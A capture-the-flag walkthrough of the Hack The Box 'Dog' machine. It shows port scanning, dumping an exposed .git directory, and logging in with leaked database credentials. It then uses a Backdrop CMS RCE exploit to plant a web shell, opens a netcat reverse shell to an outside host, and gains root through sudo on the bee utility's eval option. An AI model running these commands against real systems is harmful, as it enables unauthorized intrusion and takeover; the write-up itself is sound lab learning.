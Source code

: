 ```yaml
---
name: Dog
difficulty: easy
os: linux
platform: htb
date: 2025/07/01

img: https://labs.hackthebox.com/storage/avatars/426830ea2ae4f05f7892ad89195f8276.png
---
```


## Enumeration

### Port Scan

We start by scanning the target machine for open ports using Nmap. We will use the `-p-` option to scan all ports and the `--open` option to filter out closed ports:
```bash
nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 10.10.11.58 -o allPorts
```
```
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

Now we will scan the open ports with service version detection and script scanning using `-sC` and `-sV` options

```bash
nmap -p 22,80 -sCV 10.10.11.58 -o targeted
```
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 972ad22c898ad3ed4dac00d21e8749a7 (RSA)
|   256 277c3ceb0f26e962590f0fb138c9ae2b (ECDSA)
|_  256 9388474c69af7216094cba771e3b3beb (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-git: 
|   10.10.11.58:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: todo: customize url aliases.  reference:https://docs.backdro...
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-robots.txt: 22 disallowed entries (15 shown)
| /core/ /profiles/ /README.md /web.config /admin 
| /comment/reply /filter/tips /node/add /search /user/register 
|_/user/password /user/login /user/logout /?q=admin /?q=comment/reply
|_http-generator: Backdrop CMS 1 (https://backdropcms.org)
|_http-title: Home | Dog
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

As we can see, there is a web service running on port 80. This is exposing .git directory, which is a common misconfiguration in web applications. We can use this to our advantage.

We use `git-dumper` to download the contents of the `.git` directory:

```bash
python git_dumper.py http://10.10.11.58/.git/ ./website
```
## User Exploitation

This way we can download the entire repository, including the source code and configuration files.

We find a file named `settings.php` that contains sensitive information such as database credentials and other configuration details.
```php
$database = 'mysql://root:BackDropJ2024DS2024@127.0.0.1/backdrop';
$config_directories['active'] = './files/config_83dddd18e1ec67fd8ff5bba2453c7fb3/active';
$config_directories['staging'] = './files/config_83dddd18e1ec67fd8ff5bba2453c7fb3/staging';
$settings['hash_salt'] = 'aWFvPQNGZSz1DQ701dD4lC5v1hQW34NefHvyZUzlThQ';
```

Connecting to the database using the credentials we found, we can dump the users table to find valid user accounts.

```bash
mysql -u root -pBackDropJ2024DS2024 -h

Searching in depth, we find a possible user mail:
```bash
cat files/config_83dddd18e1ec67fd8ff5bba2453c7fb3/active/update.settings.json
```
The user is `tiffany@dog.htb`

Web page login was successfull using `tiffany@dog.htb:BackDropJ2024DS2024`

We can look up for exploits for the current version of Backdrop CMS. We find `https://www.exploit-db.com/exploits/52021` which is a Remote Code Execution (RCE) vulnerability in Backdrop CMS 1.27.1. Exactly the version we are running.

We copy and run the python script
```bash
python pya.py http://10.10.11.58
```
```
Backdrop CMS 1.27.1 - Remote Command Execution Exploit
Evil module generating...
Evil module generated! shell.zip
Go to http://10.10.11.58/admin/modules/install and upload the shell.zip for Manual Installation.
Your shell address: http://10.10.11.58/modules/shell/shell.php
```

We need to transform .zip to .tar.gz to upload it in the web application. We can do this with the following command:
```bash
unzip shell.zip && tar -czvf shell.tar.gz shell
```

We upload the `shell.tar.gz` file to the web application using the following steps:
Functionality > Install Module > Manual Installation

Then we can execute commands using the web shell at `http://10.10.11.58//modules/shell/shell.php?cmd=whoami`
```bash
www-data
```

We can get a reverse shell using the following command:
```bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.16.69 4444 > /tmp/f
```

Once we have a reverse shell, we can get a persistent shell by using the following commands on the reverse shell

```bash
script /dev/null -c /bin/bash
CONTROL-Z
stty raw -echo; fg
reset xterm
export TERM=xterm
```

We move to user su `johncusack` using the known password `BackDropJ2024DS2024`
```bash
ssh johncusack
```

We can find the user flag in the home directory:
```bash
cat /home/johncusack/user.txt
```
```
user flag value
```

## Root Exploitation

We can check if user `johncusack` has sudo privileges:
```bash
sudo -l
```
```
Matching Defaults entries for johncusack on dog:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User johncusack may run the following commands on dog:
    (ALL : ALL) /usr/local/bin/bee
```
We can see that user `johncusack` can run the command `/usr/local/bin/bee` as root.

We can check the usage of the `/usr/local/bin/bee` utility:
```bash
/usr/local/bin/bee --help
```

We find some interesting options

- eval: allows us to execute arbitrary php code
- --root: specifies the root directory to use

We can execute arbitrary code using these parameters. We can use the following command to get a reverse shell as root:
```bash
sudo /usr/local/bin/bee --root=/var/www/html eval 'system("id");'
```
```
uid=0(root) gid=0(root) groups=0(root)
```

We can read the root flag:
```bash
sudo /usr/local/bin/bee --root=/var/www/html eval 'system("cat /root/root.txt");'
```
```
root flag value
```

## Conclusion
This walkthrough demonstrates how to exploit a vulnerable Backdrop CMS installation to gain user and root access on the Dog machine. By leveraging misconfigurations and known vulnerabilities, we were able to escalate privileges and retrieve the flags.
This highlights the importance of secure coding practices and proper configuration management in web applications.

